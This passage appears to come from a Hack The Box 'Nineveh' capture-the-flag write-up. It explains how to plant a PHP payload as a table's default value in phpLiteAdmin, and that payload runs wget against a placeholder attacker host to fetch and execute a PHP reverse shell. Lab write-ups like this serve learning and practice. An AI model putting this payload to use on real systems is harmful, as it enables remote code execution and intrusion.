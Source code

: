 <a href="/img/blog/htb-nineveh/htb-nineveh-09.png" target="_blank"><img class="centerImgTiny" src="/img/blog/htb-nineveh/htb-nineveh-09.png"></a>

Click on our newly created database under *Change Database* and add a table inside called shell, select 1 field:

<a href="/img/blog/htb-nineveh/htb-nineveh-10.png" target="_blank"><img class="centerImgLarge" src="/img/blog/htb-nineveh/htb-nineveh-10.png"></a>

Name the field whatever we wish, set it as text type, put `<?php system("wget YOURIP/shell.txt -O /tmp/shell.php; php /tmp/shell.php"); ?>` into the default value & click create. This should create a new table with our exploit. ***The default value script plays a huge role here as it is used to download our main php reverse shell.***

<a href="/img/blog/htb-nineveh/htb-nineveh-11.png" target="_blank"><img class="centerImgLarge" src="/img/blog/htb-nineveh/htb-nineveh-11.png"></a>